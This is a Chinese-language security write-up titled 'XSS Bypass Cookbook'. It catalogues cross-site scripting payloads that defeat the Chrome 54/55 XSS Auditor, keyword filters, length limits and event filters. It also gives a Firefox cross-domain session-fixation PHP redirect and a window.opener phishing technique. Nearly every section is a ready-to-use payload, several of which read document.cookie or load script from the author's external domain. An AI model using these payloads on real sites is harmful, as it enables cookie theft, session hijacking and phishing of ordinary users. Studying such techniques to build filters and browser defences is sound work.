XSS Bypass Cookbook
[+] Author: math1as
[+] Team: L team
#1 引言
在目前的web安全漏洞中,xss一直属于热门的一类,而它对用户造成的危害较大。
因此也引发了不少安全爱好者和专业工程师的研究。
而html5等新技术的使用和具体业务场景中复杂的环境带给了xss更大的生存空间。
而且不同xss向量也因为浏览器的特性会有所区别
比如chrome在加载资源时会校验服务器返回的mimeType
而firefox则根据标签自己设定的type来做出处理
本文在目前较为常见的几种过滤条件下,简单的探讨了xss这一技术的应用以及绕过
记录了直到最新版有效的2个chrome xss auditor bypass payload
其中一个为universal bypass
1个firefox跨域固定会话漏洞
#1.1 研究范围
XSS在各种具体业务场景下的应用和绕过
#1.2 测试环境
在本文所叙述的测试环境中,用到的浏览器版本如下:
chrome 54.0 / firefox 50.0 均为当前的最新发行版本
ie系列由于精力有限未能进行测试
正文中所有以x=开头的payload,均是在这个输出环境下测试的,代码如下
<input value="<?php
error_reporting(0);
$content=$_GET['x'];
echo $content;
?>" />
输出在了input的value属性里
而对于直接输出在上下文或者其他位置的情况,则做了额外的探讨
#2 Bypass Chrome XSS Auditor
反射型XSS作为最容易发现和挖掘的一种XSS,活跃了非常久的时间。
但是到现在它的作用已经被逐步的弱化
特别是浏览器,比如chrome自身的xss auditor在其中扮演了非常重要的角色
它通过直接检查了输入的内容,判断其是否在输出中出现。
(当然,基本是针对'危险标签'和可能导致javascript执行的地方)
如果符合其过滤条件,那么将直接阻止脚本的执行,比如给出这样的提示

因此给反射XSS带来了不小的难度,但是它就真的那么坚固而不可挑战么?
让我们来从各个方面对它进行逐步的分析吧
本文里所提到的auditor bypass
大部分是输出在属性里的情况,直接输出而被绕过的情况已经很少见了。
#2.1 字符集问题产生的bypass
由于chrome浏览器对ISO-2022-JP等编码的处理不当
比如在页面没有设置默认的charset时,使用了这个日语字符集
在会被auditor检查的部分添加%0f字符,就可以绕过了
比如如下payload
<meta charset="ISO-2022-JP"><img src="#" onerror%1B28B=alert(1) />
这其实是利用了浏览器处理字符集时产生的问题。
目前的chrome 54/55仍然没有进行修复
随着以后字符集的更新,这种问题仍然有可能出现。
#2.2 过滤关键字造成的bypass
在我们的xss测试过程中,可能最不喜欢的就是各类过滤了,它给我们xss带来了很大的难度
但是在特定场合,它却能起到让我们绕过auditor的作用
chrome的xss auditor主要基于如下规则(这种描述也许比较粗糙)
(1)输入的内容是否直接在输出中出现
(2)输入是否有敏感标签,或者造成脚本执行的事件
那么聪明的你可能就想到了,如果替换掉了敏感关键字,比如开发者如果替换掉了<script>标签
那么对于这样的一个输出在属性里的例子
while(1)
{
if(stripos($content,"<script>")===false) break;
$content=str_replace("<script>","",$content);
}
<img alt="<?php echo $content;?>">
如果我们用<script>分割掉敏感的事件,那么我们的输入在经过auditor检查的时候,就被放行了。
而真正打印内容进行渲染的时候,由于$content中的<script>被过滤,因此我们的xss脚本成功的执行了
用这种方法,成功的绕过了xss auditor

那么它是否可以被用在直接输出的反射XSS中呢?
我们把这个输出点的代码改成如下:
<?php
$content=$_GET['x'];
while(1)
{
if(stripos($content,"<script>")===false) break;
$content=str_replace("<script>","",$content);
}
echo $content;
?>
事实证明,这种方法是完全可行的

#2.3 协议理解产生的bypass
chrome的xss auditor 在检查加载脚本的路径时,有一个比较有趣的地方
如果加载的脚本在自身目录下,那么如果xss的输出点在html属性中
auditor是不会对其进行拦截的
但是如果检测到了 // 这样的外部链接的话,就会触发auditor无法加载外部脚本
这时就有一个小细节了,在加载其他脚本时 如果我们输入了的链接使用了http: 而没有带上 // 的话
它会仍然被视为在这个目录下,比如我们构造payload

x=1"><link%20rel="import"%20href=http:www.math1as.com
明显的,它被视为了一个目录,从而返回了不存在,此时auditor也不会对其进行拦截

那么换个思路想想. 使用http: 虽然被认为是一个目录,但是https呢
我们使用https来代替http:
发现成功的把它当作了一个完整的https链接进行了加载

注意的是这里不能使用>或者"进行闭合,否则就会触发auditor的标签完整性检测
因此,像<script src="evil" ></script> 这样需要闭合的脚本就不能使用了
接下来的问题就是,既然不能用"闭合,也就意味着我们的链接最后始终会带有一个"
并且,由于加载外部文档会触发CROS,所以我们需要设置其header来允许访问
因此,我们在.htaccess新建一条url转发
RewriteRule 1.\"$ /xss/t1.php
并在t1.php中写入如下代码
<?php
header("Access-Control-Allow-Origin:*");
echo "<script>alert(1)</script>";
?>
这样我们使用如下payload,就可以成功的把xss脚本给加载过来了
x=1"><link%20rel="import"%20href=https:www.math1as.com/1.
成功的绕过了auditor

这个payload在最新的chrome 54/55中有效
那么它是否可以被用在直接输出的反射XSS中呢?
假设我们处于一个直接输出的xss点当中,具体代码如下
<body>
<?php
$content=$_GET['x'];
echo $content;
?>
</body>
这时我们使用如下payload
x=<link%20rel="import"%20href=https:www.math1as.com/

那么,很显然的,这个payload是一个无条件的chrome auditor bypass,适用于最新版chrome 54/55
这个payload由原作者发现后,认为是一个输出在属性中的bypass,而在我和phithon复现后,发现其实是无视条件直接触发的
那么,既然这样做可以加载外部资源,那么使用<embed>来加载一个外部flash产生xss是不是也可以呢?
首先我们需要让这个带有"结尾的后缀能被成功的响应为一个flash文件
在apache的mime.types配置文件中添加了s"的后缀名

可以看到返回了application/x-shockwave-flash
资源也成功加载了,但是我们的chrome并不领情

当然这里需要说明是的对于firefox来说它是不会分辨mimetype的,但是chrome就会进行校验。
因此,很遗憾的,我们的<embed>不能使用在这里。
#2.4 上传swf导致flash-xss所产生的bypass
根据2.3中的思路,如果存在任意一个可以上传swf文件的上传点,就可以对chrome的auditor进行绕过。
所用的payload如下
x=1"><embed+type="application/x-shockwave-flash"+allowscriptaccess=always+src=/a/1.swf"

但是这种方法一般比较鸡肋
因为允许上传swf文件的话,一般也允许在富文本编辑器中直接加载这个swf了
#2.5 crlf产生的bypass
由于chrome的auditor默认是开启的,但是仍然会受到http头的影响
如果X-XSS-Protection被赋值为0,那么chrome自身的filter就会关闭
因此,如果在一个302跳转页面我们注入了%0d%0a然后在新一行中
写入X-XSS-Protection:0,那么接下来的XSS内容就不会受到auditor的阻止了
如何在这个页面构造一个反射型XSS呢?
http数据报文的格式是这样的

需要再多注入%0d%0a%0d%0a,即两个crlf
这时的内容就会被视为http body而直接输出到源码中,浏览器会将其解析
因此就产生了bypass浏览器filter的注入。
但是php高版本中已不允许发送多行header

因此这个利用方法只适用于其他语言的web环境下进行利用
#3 各类针对关键字过滤的bypass
在实际的业务场景中,xss会受到程序本身,或者是可能存在的waf的影响,他们会过滤或者替换掉
攻击者payload中的某些特定关键字,因此针对关键字过滤的bypass也一直是我们主要关注的方向
#3.1 过滤特定标签
这种过滤其实真的已经无法起效了,任何一个标签都可以构造出XSS,因此不再赘述
一个示例payload <img src="#" onerror=alert(1) />
利用事件来触发xss
也可以是利用<embed>来加载一个远程的flash文件,制造xss
当然,如果输出点在html属性中,即使过滤了尖括号<>,如果可以闭合属性的冒号
那么仍然产生了dom-xss,利用事件足以摧毁开发者的防御。
#3.2 通用的敏感关键字绕过方法
关键字过滤是针对敏感变量,或者函数的,比如cookie,eval等
又或者是()符号,
那么介绍几种通用的绕过的方法
1. 利用数组方式来拼接
js里的对象成员方法也可以用数组的形式的表示
简单的说,比如eval()函数就可以用top对象的成员方法来表示
top['ev'+'al'](evalcode)
这时,比如过滤了eval,我们可以这样来触发xss
x="onfocus=top["ev"%2b"al"](alert(1))//
使用字符串拼接的方式来构造出eval

2. 利用location的url解码特点
现代浏览器基本支持javascript:code 这种伪协议
而location在跳转的过程中又会自动解码,因此我们可以试图把敏感部分进行二次编码
存放到location部位。
比如我们通过这样的方式来调用eval
x="onfocus=location="javascript:%2565%2576%2561%256c(alert(1))"//
可以看到,成功的通过eval去调用了alert(1)
那你会问,如果括号也被过滤了呢? 继续编码就好了
构造如下的payload
x="onfocus=location="javascript:%2565%2576%2561%256c%2528alert%25281%2529%2529"//

3.利用location.hash来存放
location.hash是浏览器中用于定位锚的字符串,它是不会向服务端发送的,因此也不会被过滤
所以我们可以构造如下payload来进行绕过
x="onfocus=outerHTML=location.hash//#<img/src="#" onerror=alert(document.cookie)>

4. String.fromCharcode() 可以从ascii码中解析出特定的字符串,比如这里过滤document.cookie
使用如下的payload
x="onfocus=eval(String.fromCharCode(97,108,101,114,116,40,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41))//
就可以成功绕过

5. 利用window.name进行跨域传输
用在location.hash被过滤/长度不够,或者不能使用点号的情况
这里可以使用一个<iframe scr="payload" name="evilcode" />的方式,在window.name中存储代码
其实这种方法也被称为回旋镖
它能够把一个反射XSS升格为类似存储型XSS的效果
这里以绕过对eval的过滤为例
<iframe src="http://127.0.0.1/q.php?x=1%22onfocus=location=window.name//" name="javascript:eval(alert(document.cookie))" width="100%" height="100%" />
将其保存为一个html,随便放置在一个地方,就像普通的xss那样触发

6.利用<svg>标签,<svg>内部的标签和语句遵循的规定是直接继承自xml而不是html

区别在于,<svg>内部的<script>标签中,可以允许一部分进制/编码后的字符(比如实体编码)
这里绕过对括号的过滤,使用实体编码为例,&#[十进制],&#x[十六进制] 作为例子
使用如下payload
1"><svg><script>alert%26%23x28;1%26%23x29</script></svg>
成功的进行了绕过

7.利用ES6模板字符串
`${some string}` 使用反引号
中间的some string会被当作表达式解析,简单的说就是你可以在这里使用变量
当然,一个很明显的地方就是,如果只是过滤了某个特定的字符,完全可以用这种方式绕过
举个简单的例子,如果过滤掉了1
我们可以用 `${3-2}` 这种方式来表示1
而且有一部分函数是支持不用括号传参,直接使用模板字符串作为参数的。
比如prompt,我们这里用它来弹出1
使用如下的payload
x="onfocus=prompt`${3-2}`//
可以成功的绕过

#3.3 针对特定敏感关键字的绕过方法
1.针对过滤了.符号
使用with()方法可以设定对象的作用域
也就是我原本要访问location.hash
由于点号被过滤
只需要使用with(location)hash即可
构造payload如下
1"onfocus=with(location)alert(hash)//#11

2.针对过滤了()号
使用throw传递参数,配合 ES6模板字符串 `${some string}`
具体的思路是,throw可以抛出一个异常(err)交给异常处理函数去处理
但是如果它没有在try...catch结构中使用的话,就会引发一个uncaught 'err内容' 的异常
也就是抛出的整个异常内容是 "uncaugh 'err内容'"
比如这样

所以,如果我们把异常处理函数绑定为eval
eval实际收到的就是一个Uncaught=alert(document.cookie)的表达式
它会自动执行这个表达式
而throw本身接受参数的时候是可以接受模板字符串作为参数的
所以构造如下payload
1"onfocus=top.onerror=eval;throw`=alert\x28document.cookie\x29`//
这里等号的目的就是使它成为一个合法的表达式

成功的绕过
3.过滤了空格
在标签的名称和第一个属性之间 可以用 / 来代替空格
<img/src="#" />
而在其他的某几个位置换行符也是可以起效的,具体我没有进行测试
《web之困》上有一个讲解这个知识点的地方
只是大概的举一个payload作为例子
x=1"><img/src=%23%0aonerror=alert(1)>
我们不使用双引号来闭合,但是通过%0a作为分隔符获得了一样的效果

#4 长度限制的bypass
码由于笔者自身的能力有限,所以这里也只列举三个方法
4.1 window.name跨域
使用iframe跨域的话,自身的payload长度就可以得到极大的缩短
因为你唯一需要的就是执行window.name里的代码
有在特定的场景下,window.name由于window是一个全局对象,可以直接省略window
而是用name去访问我们的window.name
而window.name能够承载的长度很大,足够我们绕过
因此我们的只需要eval(name)就可以了
使用如下payload
<iframe src="http://127.0.0.1/q.php?x=1%22onfocus=eval(window.name)//" name="alert(document.cookie)" width="100%" height="100%" />
成功执行

4.2 jquery工厂函数
jquery的工厂函数$()需要传入的是一个完整的html标签
它会自动的构造起里面的标签,并且执行里面的代码
如果我们使用了$(location.hash)就缩短了非常多的长度
做一个小小的测试
使用的payload是这样的
<iframe src="http://127.0.0.1/q.php?x=1%22onfocus=$(window.name)//" name="<img src='#' onerror=alert(document.cookie) />" width="100%" height="100%" />
也能够成功的执行了代码,而且进一步缩短了payload的长度

4.3 使用短域名
曾经wooyun上的一篇文章有提到过这个问题,在payload长度相同的情况下,谁的域名越短
谁就拥有了先天的优势。
比如一些物理单位符号,可以被合法的注册,而且会被自动解析到对应的英文域名
包括之后出现的一些韩语域名,emoji域名,也许都可以用来缩短我们的payload长度
#5 构造无需交互的payload&绕过事件过滤
之所以单独的将这一问题单独列出来,是因为虽然很多时候我们确实证明了某个输出点有xss漏洞
但一个需要用户交互较少的xss payload 才称得上足够有效
但是大多数时候,能够使用的事件都被过滤了
因此,如果我们的payload还需要用户做大量的点击拖拽等操作(click jacking除外)
那完全称不上足够有效
当然最好就是无需交互,那么就让我们来看一看怎么构造出无需交互的payload
5.1 onerror/onload 事件
两个事件是最容易触发,而且无需交互的
比如如下的payload
<svg/onload=alert(1)>
<img src="#" onerror=alert(1) />
但是这两个事件太常见了,非常容易就遭到了过滤
而且也有相当一部分标签不支持onerror等事件
5.2 onfocus与autofocus
对于<input>等标签来说,onfocus事件使他们在获得焦点时
而autofocus则会让他们自动获得焦点
因此,很容易利用这个构造出如下的payload,使他们自动获得焦点并触发事件执行js
1"%20autofocus%20onfocus=alert(1)//
完整的html标签是这样的
<input value="1" autofocus onfocus=alert(1)// >
可以自动的触发我们的payload

那么如果我们的onfocus属性也被过滤掉了呢?
5.3 onblur与autofocus
onblur是标签失去焦点时引发的事件,那么你可能就会问了
这和我无需交互的payload有什么关系呢
很简单,我们来看看怎么样让标签'自动'失去焦点
(1)在稍早版本的chrome中
我们构造如下payload
x=1"><input%20onblur=alert(1)%20autofocus><input%20autofocus><input%20autofocus>
有好几个标签来'竞争' autofocus的焦点,那么 只要我们的第一个带有onblur事件的input,在获得焦点后,又因为竞争而失去焦点的话,就可以触发这个payload了
(2)在最新版本中
由于上一个payload已经无法正常工作了,但是我们仍然能够通过
x=1"><input%20onblur=alert(1)%20autofocus>
来构造一个需要较少交互的xss向量
用户只要随意点击窗口里的任意一个地方就会触发我们的payload
但是非常多其他标签似乎无法触发onfocus,更不要说autofocus了
5.4 <details>标签的ontoggle事件
如果大部分常见事件都被过滤掉了,我们仍然有办法来构造一个无需交互的xss向量
这就是<details>标签的ontoggle属性,它会在自身的open属性不为空时触发
构造如下payload
x=1"><details%20open%20ontoggle="alert(1)">
在chrome最新版本中有效

5.5 flash-xss的自动触发
在之前的chrome auditor bypass中,它似乎非常鸡肋
但是在存储型xss和其他浏览器的场景下,用它可以构造非常有效的攻击向量
payload构造如下
x=1"><embed+type="application/x-shockwave-flash"+allowscriptaccess=always+src=https://www.math1as.com/3.">

最新版chrome/firefox均有效
5.6 任意标签的自动触发
那么如何实现任意标签的自动触发这一目标呢
这里只简单的讲一个技巧
可以用任意脚本构造出无需交互的payload
如我们所知,有很大一部分标签是"不响应"onfocus事件的
你用鼠标移动上去,他没有任何的反应
但事实上,真的如此么?
我们试着给它添加一个tabindex属性
然后为它设置id=1
最后用location.hash来定位到id=1的锚点,就可以让他获得焦点
这里我们用一个不存在于标准里的标签<hero>来测试
构造如下payload
x=1"><hero%20id="1"%20tabindex="0"%20onfocus=alert(1)>#1
对应的标签是
<hero id="1" tabindex="0" onfocus=alert(1)>
于是,我们就获得了一个构造任意标签的自动触发payload的方法。

#6 CSP Bypass
CSP(内容安全策略)也是目前现代浏览器越来越重要的一种限制XSS的手段
关于如何对它进行绕过,具体参见我的文章《初探CSP Bypass 一些细节总结》
#7 XSS tricks
虽然有时候我们不一定能够通过标签和脚本的写入来实现一个xss
但是有时候一些奇思妙想也可以让我们简介的实现目标
7.1 firefox <50.02跨域问题
这个漏洞出现在firefox的如下版本
可以产生一个固定会话漏洞
在服务器上把/test urlrewrite到 /xss/ff.php
在ff.php则用302将浏览器重定向到一个dataURL
<?php
$key="hehe";
$val="tester";
header("Location: data:image/svg+xml,<svg xmlns='http://www.w3.org/2000/svg'><circle r='100'></circle><foreignObject><html xmlns='http://www.w3.org/1999/xhtml'><meta http-equiv='Set-Cookie' content='$key=$val'/></html></foreignObject></svg>");
?>

然后在受害者访问的网站里插入<img src="//xss.com/test" />
访问后受害者的cookie被设置为hehe=tester 产生了一个固定回话漏洞
此时如果受害者尝试进行登陆,我们随后就可以用这个被认证了的cookie以用户身份使用其账号
因为chrome不允许302跳转到base64链接(如图)
所以只能在firefox下使用这个攻击手法
而且大部分网站的富文本编辑器都允许插入一张图片
因此危害还是比较大的。
7.2 利用 opener进行钓鱼
在js中可以使用window.opener (也就是当前window的父窗体)来访问到打开本窗体的页面
比如我的chrome有两个标签页,从a标签页打开了b,那么b就可以通过window.opener.location
反过来控制a标签页的地址
虽然很明显的,浏览器不允许其跳转到一个javascript地址,但是却可以跳转到一个dataURL
因此我们可以伪造一个a标签页对应网站的登陆页面,让用户以为是自己掉线了
从而实现钓鱼的功能。
#8 结语
通过本文对XSS的各类应用场景进行探讨,以笔者有限的能力剖析了一些业务场景
分析了一部分具体的xss payload和目前存在的主流绕过方法。
希望能够通过这篇文章,起到抛砖引玉的效果。
#9 参考
[1] https://html5sec.org/xssauditor/bypasses-052016
[2] https://insert-script.blogspot.co.at/2016/12/firefox-svg-cross-domain-cookie.html